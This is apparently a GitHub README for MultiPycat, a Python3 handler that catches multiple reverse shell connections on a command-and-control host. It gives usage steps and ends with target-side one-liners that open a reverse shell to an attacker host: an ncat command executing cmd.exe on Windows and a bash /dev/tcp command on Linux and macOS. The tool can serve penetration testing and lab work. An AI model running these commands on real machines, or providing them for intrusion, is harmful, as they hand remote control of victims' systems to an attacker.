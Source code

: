 # MultiPycat
Multiple reverse shell connections handler written in Python3.

<img src="https://github.com/tomelic/MultiPycat/blob/master/example.png" width="500" height="300">

# Features
* Simultaneously accept multiple reverse shell connections from different devices
* Interacting with connections and going back and forth to the main interface
* Simplistically written in Python3
* No external dependencies or libraries

# Usage
Install `python3` or use the executable in the releases section

Run on C2 (Tested on Windows and Linux)
```
python3 MultiPycat.py <LISTENING PORT>
MultiPycat> help
```

Target machine examples
```
# windows
ncat <HOST> <PORT> -e cmd.exe

# linux/ macOS
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1 &
```
